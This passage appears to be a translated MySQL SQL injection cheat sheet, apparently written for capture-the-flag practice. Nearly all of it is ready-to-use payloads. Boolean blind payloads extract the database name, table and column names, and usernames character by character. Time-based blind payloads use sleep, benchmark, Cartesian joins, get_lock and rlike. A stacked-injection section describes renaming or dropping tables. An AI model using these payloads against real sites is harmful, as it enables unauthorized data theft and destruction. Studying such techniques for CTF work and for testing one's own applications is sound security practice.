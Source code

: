 ````sql

#### Blasting content
````sql
# Guess the name of the current database
and ascii(substr((select database()),1))=115--+

# Guess the table name of a certain table
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),5))=115 --+

# Guess a column name in a table
and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),8))=101 --+

# Guess the data named username in a table
and ascii(substr((select username from users limit 0,1),1)) = 68--+
```

### Time blind
Time blinds are mainly based on Boolean blinds and are judged using delayed functions. They can be mainly divided into the following types:
 - sleep
````sql
# When the expression is Ture, the page is stuck for 5 seconds, otherwise the page is stuck for one second.
and if(length(database())=8,sleep(5),1) --+
```
 -
benchmark
````sql
# When the expression is Ture, the page is stuck for 5 seconds, otherwise the page is stuck for one second.
and if(length(database())=8,benchmark(10000000,sha(1)),1) --+
```
 - Cartesian product
````sql
# If the delay is inaccurate, the time-consuming process will be high when the number of count() is large; if the number of count() is small, the time-consuming process will be low.
and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C); --+
```
 - get_lock
````sql
# The ctf table is locked, and the judgment will be made after 5 seconds (0=1), otherwise the judgment will be made without delay (1=1)
and get_lock('ctf',5)=1 --+
```
 - rlike
````sql
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```

### Stack Injection
Stacking injection is not common in `MySQL`, and it is necessary to use `mysqli_multi_query` or `PDO`. You can use semicolons to execute multiple statements, which is equivalent to directly connecting to the database. Since semicolons are the endorsements of `MySQL` statements, if multiple statements are supported, this method can be used to execute other malicious statements, such as `RENAME`, `DROP`, etc.

Note that when multiple statements are executed, if the previous statement has returned data, the data returned by the subsequent statements cannot be returned to the front-end page. Therefore, `union` joint injection can be used. If joint injection cannot be used, consider using the `RENAME` keyword to change the desired data column name/table name to the table/column name defined by the `SQL` statement that returns the data. Reference: [2019 Strong Net Cup - A casual note] (https://blog.csdn.net/qq_44657899/article/details/103239145).
````